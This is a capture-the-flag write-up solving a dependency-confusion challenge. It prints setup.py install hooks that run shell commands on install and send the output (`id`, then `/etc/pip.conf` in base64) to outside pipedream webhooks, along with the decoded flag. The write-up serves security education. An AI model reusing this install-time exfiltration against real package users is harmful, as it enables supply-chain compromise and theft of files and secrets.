 # Hack The Empire

## Description

An enemy of The Empire have a job for you. As an adversary he want to hack CTFQ21EmpireTmp. He heard that in their server is hosting their holy flag in /flag.txt

No IP address is needed in this task. Good luck.

̿̿ ̿̿ ̿̿ ̿'̿'\̵͇̿̿\з= ( ▀ ͜͞ʖ▀) =ε/̵͇̿̿/'̿'̿ ̿ ̿̿ ̿̿ ̿̿

Important: Whatever was the solution that you're going to adopt, if you want to use webhooks, DO NOT USE any of those that allows other participants to see the flag (don't use webhook.site, you may let other participants to catch the flag from there) (for example you can use requestbin instead of webhook.site since the flag can be seen by the authenticated user). Think about using a method that will not leave anybody else to read the flag from your steps. And don't forget to remove your work after you solve the task to avoid anybody else to steal it.

Hint 1: find the original web page (in the original website) that was sharing what you've found since that page is not updated

Author: TheEmperors

## Solution

A quick Google search leads us to this blog post: https://ittone.ma/ittone/is-there-any-limit-in-pythons-requirements-txt-during-the-installation/

![Blog Post](resources/blog.png?raw=true)

We can gather that the company is downloading packages from a private repository that match the following regex: `ctf_q21_empire_tmp_[a-z0-9_]{5,10}`

They also reveal the structure of their `pip.conf` file:

```
[global]
extra-index-url = http://<private_IP_and_port>/simple/
trusted-host = <private_IP>
```

Due to the behaviour of the `extra-index-url` option, pip will search their private repository in addition to the public repository, prioritizing them based on version number.

Therefore, we can trick the server into downloading a mallicious package by creating one that matches the regex with a sufficiently high version number.
We care told the location of the flag file, so we can read the flag as part of the install script.
To retreive the contents, we can use an http request containing the contents encoded in base64.

Additionally, if we search for the start of the regex, we find a removed package on PyPI, uploaded by TheEmperors.
Using Google's webcache feature, we can examine the repository despite it being removed:

https://webcache.googleusercontent.com/search?q=cache:N6A2lqcEQtcJ:https://pypi.org/project/ctf-q21-empire-tmp-bw13434/0.0.9/+&cd=1&hl=en&ct=clnk&gl=ca&client=firefox-b-d

We can download the contents of this package and modify it to work with out exploit.
The latest version of the package is [ctf-q21-empire-tmp-bw13434-0.0.9.tar.gz](./ctf-q21-empire-tmp-bw13434-0.0.9).

Let's examine the `setup.py` script:

```py
from setuptools import setup
import os
from setuptools.command.install import install

setup(
    name='ctf-q21-empire-tmp-bw13434',
    description='Bye world',
    version='0.0.9',
    packages=['main'],
    install_requires=[
      'requests',
    ],
    )

class PostInstallCommand(install):
    """Post-installation for installation mode."""
    def run(self):
        install.run(self)
        # PUT YOUR POST-INSTALL SCRIPT HERE or CALL A FUNCTION
        import requests
        requests.get("https://ene63d9dv33i6ch.m.pipedream.net/?hehe="+os.popen("id").read()) #cat /flag.txt | base64").read())
```

The `setup` call appears ordinary, however, there is an http request within the `PostInstallCommand` function.
We can see that it sends a request to a webhook containing the output of `id`.
Also, contained in a comment is a command that conveniently reads the flag file and converts it to base64.
We can modify this function to send the flag instead of the id, and we change the first request parameter to send it to a webhook controlled by us.
Importantly, we have to move the function declaration to above the call to `setup`, otherwise it will not be defined during the setup and thus will not be run.

I also changed the name of the package in hopes that it would not overlap with another package of theirs with a greater or equal version.
The package is relatively small, so all other files were updated to match the new package name.

## Exploit

```py
from setuptools import setup
import os
from setuptools.command.install import install

class PostInstallCommand(install):
    """Post-installation for installation mode."""
    def run(self):
        install.run(self)
        # PUT YOUR POST-INSTALL SCRIPT HERE or CALL A FUNCTION
        import requests
        requests.get("https://enc2i9ljmjy100e.m.pipedream.net/?hehe="+os.popen("cat /etc/pip.conf | base64").read())

setup(
    name='ctf-q21-empire-tmp-1337420',
    description='Bye world',
    version='0.0.9',
    packages=['main'],
    install_requires=[
      'requests',
    ],
    cmdclass={
        'install': PostInstallCommand,
        },
    )
```

Within 5 minutes, we get a request with some data encoded in base64:

```
VGhpcyBpcyB3aGF0IHdlIGNhbGwgJ0RlcGVuZGVuY3kgY29uZnVzaW9uJ1xudGhhdCBpcyB3ZWxs
IGV4cGxhaW5lZCBoZXJlICh0aGlzIGlzIG5vdCBteSBhcnRpY2xlIGJ1dCBJIGxpa2VkIGl0KSBo
dHRwczovL21lZGl1bS5jb20vQGFsZXguYmlyc2FuL2RlcGVuZGVuY3ktY29uZnVzaW9uLTRhNWQ2
MGZlYzYxMCAuXG4gV2hpY2ggaXMgcGFydCBvZiB0aGUgT3BlbiBTb3VyY2UgU29mdHdhcmUgU3Vw
cGx5IENoYWluIEF0dGFja3MuXG5GbGFnOiBTZWN1cmluZXRze0QzUDNOZDNuY3lfQzBuRnU1IW5f
eERfd2VyZV95b3VfY29uZnVzZWRfZW5vdWdofVxuV2UgZGlkbid0IHdhbnQgdG8gbWFrZSBpdCBt
b3JlIGRpZmZpY3VsdCB0byB0YWtlIGluIGNvbnNpZGVyYXRpb24gd2hhdCBhbGwgdGhlIHRlYW1z
IG5lZWQgYXMgcmVxdWlyZW1lbnRzLiBUaGlzIGlzIHdoeSBmb3IgdGhlIHRpbWUgYmVpbmcgd2Ug
YXJlIG5vdCByZXF1ZXN0aW5nIGRpZmZpY3VsdCB0YXNrIChqdXN0IHJlYWQgdGhpcyBmaWxlIGlz
IGVub3VnaCkgYnV0IHRoZSBtaXNzY29uZmlndXJhdGlvbiBoZXJlIGlzIHRpZWQgd2l0aCB0aGUg
LS1leHRyYS1pbmRleC11cmwuIFlvdSBjYW4gY2hlY2sgdGhlIC9ldGMvcGlwLmNvbmYgaWYgeW91
IGFyZSBjdXJpb3VzIHRvIHNlZSBpZiB0aGlzIGlzIGEgcmVhbCB0YXNrIG9yIHdhcyBpdCBmYWtl
ZC4=
```

Which can be decoded into:

```
This is what we call 'Dependency confusion'\nthat is well explained here (this is not my article but I liked it) https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610 .\n Which is part of the Open Source Software Supply Chain Attacks.\nFlag: Securinets{D3P3Nd3ncy_C0nFu5!n_xD_were_you_confused_enough}\nWe didn't want to make it more difficult to take in consideration what all the teams need as requirements. This is why for the time being we are not requesting difficult task (just read this file is enough) but the missconfiguration here is tied with the --extra-index-url. You can check the /etc/pip.conf if you are curious to see if this is a real task or was it faked.
```

## Flag

`Securinets{D3P3Nd3ncy_C0nFu5!n_xD_were_you_confused_enough}`

